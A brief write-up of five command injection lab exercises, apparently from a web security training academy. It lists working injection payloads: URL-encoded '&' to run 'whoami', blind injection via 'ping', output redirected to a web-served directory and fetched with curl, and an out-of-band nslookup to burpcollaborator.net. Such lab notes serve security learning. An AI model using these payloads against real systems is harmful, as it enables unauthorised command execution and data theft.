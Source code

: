 1. This lab is vulnerable to a simple command injection. First, I used the burp proxy to capture traffic checking the stock of an item. From there, the injection can be done by modifying the `storeId` parameter to have a value such as `1%26whoami` (note that `%26` is a URL-encoded `&`)
2. This lab has a blind injection in the feedback form. This can be exploited by sending the email parameter as a payload such as `a%26ping -c10 8.8.8.8%26`
3. This lab has the same blind injection as the previous. In order to extract data, command output can be redirected to the `/var/www/images` directory and then retrieved as an image. The payload in the email parameter is as follows `a%26whoami > /var/www/images/whoami%26`, and the data can be retrieved by running `curl https://ac411ff11e45c700c080578c00c20009.web-security-academy.net/image?filename=whoami`
4. This lab has the same blind injection as the previous, but requires triggering a DNS lookup for the domain `burpcollaborator.net` to solve. The following payload in the email parameter solves the lab `a%26nslookup burpcollaborator.net%26`
5. This lab is not possible without using Burp Suite Professional. The lab's firewall stops out of band traffic that doesn't go to burp collaborator, so the necessary data cannot be exfiltrated
